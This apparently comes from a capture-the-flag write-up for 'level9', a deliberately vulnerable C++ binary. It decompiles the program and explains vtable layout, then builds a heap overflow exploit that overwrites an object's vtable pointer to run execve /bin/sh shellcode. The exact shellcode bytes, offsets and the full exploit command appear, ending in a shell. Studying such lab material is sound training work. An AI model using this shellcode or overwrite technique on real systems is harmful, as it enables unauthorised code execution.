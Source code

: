 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level8](../level8/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[bonus0 →](../bonus0/solution.md)
</span>
</span>

level9
======

Decompilation
-------------

This time we seem to have some c++ code.
The program looks like this:
```cpp
#include <cstdlib>
#include <cstring>

class N
{
private:
	char	annotation[100];
	int		value;

public:
	N(int value): value(value)
	{ }

	virtual int	operator+(N &other)
	{ return value + other.value; }

	virtual int	operator-(N &other)
	{ return value - other.value; }

	void setAnnotation(char *str)
	{ memcpy(annotation, str, strlen(str)); }
};

int main(int ac, char **av)
{
	N	*a;
	N	*b;

	if (ac < 2) {
		exit(1);
	}

	a = new N(5);
	b = new N(6);

	a->setAnnotation(av[1]);

	return *b + *a;
}
```

We can see that there are two virtual methods that can be overloaded by classes inheriting N.
The way virtual methods work is that each instance of a class containing them needs to have a pointer to the vtable.
The vtable contains the pointers to the inherited or overloaded implementations.
It can contain NULL pointers, when inheriting abstract classes, in which case they cannot be instanciated.

The memory layout for instances of such classes looks like this:
| vtable | members | ... |
|:------:|:-------:|:---:|
|  0x00  |   0x04  | ... |

In our case it look like this:
| vtable | annotation | value |
|:------:|:----------:|:-----:|
|  0x00  |    0x04    |  0x68 |

The contents of the vtable look like this:
|   vtable   |
|:----------:|
| operator + |
| operator - |

Before calling return, the operator +, which corresponds to the first entry of the vtable, will be called.
In assembly the call looks like this:
```nasm
...
 804867c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]		; b->vtable
 8048682:	8b 10                	mov    edx,DWORD PTR [eax]		; b->vtable[0]

 8048684:	8b 44 24 14          	mov    eax,DWORD PTR [esp+0x14]	; a
 8048688:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax	; arg_1 = a

 804868c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048690:	89 04 24             	mov    DWORD PTR [esp],eax		; arg_0 = b

 8048693:	ff d2                	call   edx						; b->vtable[0](b, a)
...
```

Exploitation
------------

If we manage to override the pointer to b's vtable with a pointer to some other table, we can execute shellcode.

In memory, our two objects look like this:
| a.vtable | a.annotation | a.value | overhead | b.vtable | b.annotation | b.value | overhead |
|:--------:|:------------:|:-------:|:--------:|:--------:|:------------:|:-------:|:--------:|
|   0x00   |     0x04     |   0x68  |   0x6c   |   0x70   |     0x74     |   0xd8  |   0xdc   |


The memcpy copies to annotation, which is at offset 0x04. To reach b.vtable we need to input 0x70 - 0x04 = 0x6c bytes followed by the address of our fake vtable.
We can put our fake vtable at the beginning of the annotation. Inside, we can simply point onto the memory following it, so that we can place our shellcode in the remaining space.

To find out the address of the annotation buffer, we can use gdb:
```sh
gdb -batch -ex 'b * 0x08048693' -ex 'r "AAAA"' -ex 'p *(char **)($esp + 0x14) + 0x4' ./level9
```
```c
Breakpoint 1 at 0x8048693

Breakpoint 1, 0x08048693 in main ()
$1 = 0x804a00c "AAAA"
```

We can replace the As with the address + 4 and put the address to the end of the input.
I will put the same shellcode I used in level2 and fill the remaining space with As.
```
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

./level9 $'\x10\xa0\x04\x08'"$SHELLCODE"$(printf %.0sA {1..83})$'\x0c\xa0\x04\x08'
```

```sh
whoami
```
```
bonus0
```
